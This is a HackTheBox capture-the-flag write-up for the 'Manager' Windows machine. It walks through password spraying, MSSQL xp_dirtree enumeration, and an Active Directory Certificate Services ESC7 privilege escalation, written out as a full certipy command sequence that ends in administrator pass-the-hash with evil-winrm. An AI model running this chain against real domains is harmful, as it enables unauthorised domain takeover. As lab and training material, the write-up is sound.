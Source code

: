 ```yaml
---
layout: post
title: "Manager-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/5ca8f0c721a9eca6f1aeb9ff4b4bac60.webp
---
```


# Manager

HackTheBox: Medium

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled.png' | relative_url }})
<br/><br/>
With Rustscan we found 
<br/><br/>
> 445 SMB
1433 mssql
464 kpass
88 Kerberos
> 
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_1.png' | relative_url }})
<br/><br/>
That’s how we find active users in the machine
<br/><br/>
~Spray all the users found using Crackmapexec
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_2.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
> Crackmapexec is a useful tool but it is not maintained anymore so we are going to chanche a .py file something with the ssl version.
> 
<br/><br/>
Enum shared resources

<aside>
💡 Impacket-smbclient
Impacket-mssqlclient

</aside>
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_3.png' | relative_url }})
<br/><br/>
Once inside of shared resources we were able to access the database tables, we started looking into their contents. We hace content in xp_dirtree
<br/><br/>
We can check documentation to find web page resources 
<br/><br/>
```bash
 EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```
<br/><br/>
find a website backup  with creds, use wget to download it locally, using evil-wirm to access
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_4.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
```bash
whoami /groups /priv
```
<br/><br/>
![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_5.png' | relative_url }})
<br/><br/>
Evil winrm a advantage, the capacity of upload and create files from remote machine
<br/><br/>
```bash
upload cerfity.exe
./Certify.exe find /vulnerable
```
<br/><br/>
Now we’re gonna use certipy, with an auth we get  specific vulnerabilities and exploit them
<br/><br/>
```bash
certipy find -u user@--- -p "rtgre" -enable -vulnearable -target manager.htb
```
<br/><br/>
Vulnerable to ESC7 find mor info [HERE](https://github.com/ly4k/Certipy#esc7) and exploit
<br/><br/>

```bash
#Add an officer named 'raven' to the CA named 'manager-DC01-CA' given managecertificate rights
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password '<password>' 

#Enable a certificate template named 'SubCA' for the CA 'manager-DC01-CA'.
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password '<password>' 

#Submit a certificate request for the template 'SubCA' to the CA 'manager-DC01-CA'.
#It fails but we just need the private key to sign the certificate to issue directly
certipy req -username raven@manager.htb -password '<password>' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb 

#Issue the certificate based on the request submitted.
certipy ca -ca "manager-DC01-CA" -issue-request <private_key_id> -username 'raven@manager.htb' -password '<password>' 

#Retrieve the issued certificate.
certipy req -username 'raven@manager.htb' -password '<password>' -ca "manager-DC01-CA" -target manager.htb -retrieve <private_key_id>
```
<br/><br/>
You’ve got a hash for admin with
<br/><br/>

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
<br/><br/>
Whether for some reason it shows you an error message try to sync servers like this
<br/><br/>
```bash
sudo ntpdate -u manager.htb
```
<br/><br/>
And finally
<br/><br/>
```bash
evil-winrm -i 10.10.11.236 -u administrator -H password
```
<br/><br/>
Machine pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
